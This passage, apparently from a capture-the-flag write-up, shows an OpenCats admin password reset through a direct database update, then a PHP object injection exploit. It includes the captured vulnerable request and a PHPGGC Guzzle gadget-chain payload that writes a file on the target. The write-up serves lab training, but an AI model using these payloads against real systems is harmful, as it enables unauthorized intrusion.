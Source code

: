 Create a password:
```bash
$ echo -n password123 | md5sum
482c811da5d5b4bc6d497ffa98491e38  -
```

Update the `admin` password in the database:
```
MariaDB [cats_dev]> update user set password="482c811da5d5b4bc6d497ffa98491e38" where user_id=1;
Query OK, 1 row affected (0.002 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Great, now we can login as `admin:password123` in the website portal:
![[admirertoo/images/image8.png]]

There is a [blog by Snoopy Security](https://snoopysecurity.github.io/web-application-security/2021/01/16/09_opencats_php_object_injection.html) that explains how to exploit that CVE, we can read and follow along.

### Exploiting OpenCats
For this to work we need to switch to activities tab, click on `date` and intercept the request in Burp Suite:
```
GET /index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A8%3A%7Bs%3A10%3A%22rangeStart%22%3Bi%3A0%3Bs%3A10%3A%22maxResults%22%3Bi%3A15%3Bs%3A13%3A%22filterVisible%22%3Bb%3A0%3Bs%3A9%3A%22startDate%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22endDate%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22period%22%3Bs%3A37%3A%22DATE_SUB%28CURDATE%28%29%2C+INTERVAL+1+MONTH%29%22%3Bs%3A6%3A%22sortBy%22%3Bs%3A15%3A%22dateCreatedSort%22%3Bs%3A13%3A%22sortDirection%22%3Bs%3A4%3A%22DESC%22%3B%7D HTTP/1.1
Host: localhost:9000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:9000/index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A8%3A%7Bs%3A10%3A%22rangeStart%22%3Bi%3A0%3Bs%3A10%3A%22maxResults%22%3Bi%3A15%3Bs%3A13%3A%22filterVisible%22%3Bb%3A0%3Bs%3A9%3A%22startDate%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22endDate%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22period%22%3Bs%3A37%3A%22DATE_SUB%28CURDATE%28%29%2C+INTERVAL+1+MONTH%29%22%3Bs%3A6%3A%22sortBy%22%3Bs%3A15%3A%22dateCreatedSort%22%3Bs%3A13%3A%22sortDirection%22%3Bs%3A3%3A%22ASC%22%3B%7D
Cookie: CATS=pi6tu18gi6s644ab6doit1ll37
Upgrade-Insecure-Requests: 1
```

According to the blog, `activity` parameter is vulnerable. So, we need to generate serialized exploit using PHPGGC and replace it with default one. We can use https://github.com/ambionics/phpggc.
First we can simply create a file in `/dev/shm` to check its permissions and user details:
```bash
$ echo "Caue was here" > test.txt
$ phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/test.txt /home/caue/htb/admirertoo/test.txt
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A14%3A%22Caue+was+here%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A17%3A%22%2Fdev%2Fshm%2Ftest.txt%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```
